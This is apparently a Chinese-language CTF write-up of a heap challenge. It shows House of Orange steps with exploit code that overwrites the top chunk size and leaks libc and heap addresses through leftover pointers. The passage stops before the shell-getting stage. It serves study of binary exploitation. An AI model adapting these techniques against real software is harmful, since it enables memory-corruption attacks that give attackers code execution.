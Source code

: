 ### 分析

菜单题，有add、edit、show三功能，无free

在edit功能中有堆溢出漏洞，经典的House of orange模版

### 利用思路

通过House of orange方法获得unsorted bin chunk，利用unsortedbin attack伪造执行伪造的IO\_FILE结构体getshell

### 做题过程

修改topchunk size

```plain
add(0x20,b"aaaa")
edit(0,-1,p64(0)*5+p64(0xfd1))
add(0x1000,b"a")
```

[![](assets/1701606938-9adec33a3bc4e5a69dfa0c63996b30bd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201532-5f6c2858-6a8b-1.png)

此时我们得到了一个unsorted bin中的堆块，但是为了后续攻击需要，我们还需要泄露堆地址和libc地址。而这道题其实还存在一个漏洞，就是忘记在输入函数中输入数据后，给字符串末尾加上\\x00了，这就导致了unsorted bin中的堆块被申请后会残留fd和bk指针，再次申请的时候即可泄露libc。

但是我们还需要泄露堆地址，就需要申请一个largebin 大小的chunk。当触发遍历unsorted bin的时候，会将其中的堆块分类放入small bin或者large bin中，这样这个堆块就会被分到large bin中，然后启用fd\_nextsize和bk\_nextsize指针(堆地址在这上面)

这个chunk上面残留了libc和堆地址，我们执行两次show即可进行泄露

```plain
add(0x400,b"b"*8)
show()
ru(b"b"*8)
main_arena = uu64(r(6))
libc_base = main_arena-1640-0x10-libc.sym['__malloc_hook']
edit(2,-1,b"c"*0x10)
show()
ru(b"c"*0x10)
heap_addr = uu64(r(6))-0x30
```

[![](assets/1701606938-6510d9a6709dc0a032d0317bf389d368.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201542-64f92da2-6a8b-1.png)
